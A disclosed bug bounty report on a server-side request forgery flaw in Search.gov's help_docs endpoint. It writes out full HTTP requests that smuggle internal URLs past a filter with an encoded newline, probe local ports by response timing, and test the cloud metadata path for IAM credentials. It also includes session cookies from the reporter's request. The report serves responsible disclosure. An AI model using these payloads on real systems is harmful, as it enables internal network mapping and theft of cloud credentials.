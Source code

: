 # SSRF in Search.gov via ?url= parameter

## Report Details
- **Report ID**: 514224
- **URL**: https://hackerone.com/reports/514224
- **State**: Closed
- **Severity**: low
- **Submitted**: 2019-03-23T13:51:35.176Z
- **Disclosed**: 2019-08-26T19:03:05.410Z

## Reporter
- **Username**: niwasaki
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gsa_bbp

## Vulnerability Information
# Summary:

`https://search.usa.gov/help_docs` endpoint is vulnerable to SSRF via `url` parameter. The parameter is protected but can be bypassed using LF (%0A).

# Steps To Reproduce:

1. Login to Search.gov and click `help manual`.
2. The following request was vulnerable.
  - Request

    ```
    GET /help_docs?url=https%3A%2F%2Fsearch.gov%2Fmanual%2Faccount.html HTTP/1.1
    Host: search.usa.gov
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:65.0) Gecko/20100101 Firefox/65.0
    Accept: application/json, text/javascript, */*; q=0.01
    Accept-Language: ja,en-US;q=0.7,en;q=0.3
    Accept-Encoding: gzip, deflate, br
    Referer: https://search.usa.gov/account
    X-NewRelic-ID: VgYAV1BRCxABU1JUBAUCXlI=
    X-CSRF-Token: /2jDOc6aYEZA5VealIrF44qJZtY0iDiTsALu8HYA+OOIewuKHREwyh6M0wGa2WC9amTPX4vPMjj0YQIjys3nNA==
    X-Requested-With: XMLHttpRequest
    Connection: close
    Cookie: _ga=GA1.2.924676610.1553290937; _gid=GA1.2.1047460386.1553290937; _ga=GA1.3.924676610.1553290937; _gid=GA1.3.1047460386.1553290937; _session_id=a0d5ecbfa9404ea9ffad4cb3ea771dea; user_credentials=1055608db95b714d9ae2ef05a4e1b83aa138ad5fca67422f02ca795ec2a74179bb15c610dd33f5e6f200be0de0e812a8fe3d59a0027b290b5377ab2a65da1f19%3A%3A5992
    ```

3. If you insert `http://127.0.0.1:21/?%0A` before `url` parameter and send request, then response time is about 450ms. (Port is closed)
  - Request

    ```
    GET /help_docs?url=http://127.0.0.1:21/?%0Ahttps%3A%2F%2Fsearch.gov%2Fmanual%2Faccount.html HTTP/1.1
    (snip)
    ```
  - Response

    ```
    HTTP/1.1 200 OK
    (snip)
    {"body":"<div class='alert alert-error'>Unable to retrieve <a href='http://127.0.0.1:21/?\nhttps://search.gov/manual/account.html'>http://127.0.0.1:21/?\nhttps://search.gov/manual/account.html</a>.</div>"}
    ```

4. If you insert `http://127.0.0.1:22/?%0A` before `url` parameter and send request, then response time is about 10,468ms. (Port is open)
  - Request

    ```
    GET /help_docs?url=http://127.0.0.1:22/?%0Ahttps%3A%2F%2Fsearch.gov%2Fmanual%2Faccount.html HTTP/1.1
    (snip)
    ```
  - Response

    ```
    HTTP/1.1 200 OK
    (snip)
    {"body":"<div class='alert alert-error'>Unable to retrieve <a href='http://127.0.0.1:22/?\nhttps://search.gov/manual/account.html'>http://127.0.0.1:22/?\nhttps://search.gov/manual/account.html</a>.</div>"}
    ```

5. If you insert `http://169.254.169.254/latest/meta-data/iam/security-credentials/?%0A` before `url` parameter, then response body is empty. (/security-credentials exists)
  - Request

    ```
    GET /help_docs?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/?%0Ahttps%3A%2F%2Fsearch.gov%2Fmanual%2Faccount.html HTTP/1.1
    (snip)
    ```
  - Response

    ```
    HTTP/1.1 200 OK
    (snip)
    {"body":""}
    ```

6. If you insert `http://169.254.169.254/latest/meta-data/iam/security-credentialx/?%0A` before `url` parameter, then response body is `Unable to retrieve` error. (/security-credentialx does not exists)
  - Request

    ```
    GET /help_docs?url=http://169.254.169.254/latest/meta-data/iam/security-credentialx/?%0Ahttps%3A%2F%2Fsearch.gov%2Fmanual%2Faccount.html HTTP/1.1
    (snip)
    ```
  - Response

    ```
    HTTP/1.1 200 OK
    (snip)
    {"body":"<div class='alert alert-error'>Unable to retrieve <a href='http://169.254.169.254/latest/meta-data/iam/security-credentialx/?\nhttps://search.gov/manual/account.html'>http://169.254.169.254/latest/meta-data/iam/security-credentialx/?\nhttps://search.gov/manual/account.html</a>.</div>"}
    ```

## Impact

Attacker can scan your local network, finding internal port, and internal web applications. This may help with mapping what the infrastructure looks like and can help plan exploiting other vulnerabilities.

## Attachments
No attachments
